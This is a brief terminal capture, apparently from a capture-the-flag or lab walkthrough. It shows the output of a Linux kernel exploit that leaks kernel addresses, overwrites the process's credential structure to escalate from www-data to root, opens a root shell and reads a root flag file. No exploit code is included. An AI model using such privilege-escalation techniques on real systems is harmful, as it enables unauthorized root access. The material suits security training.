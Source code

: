 ```bash
[*] Leaking sock struct from ffff8f2841f41000
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff8f2871321b00
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8f2871321b00
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
b2b17036da1de94cfb024540a8e7075a
```
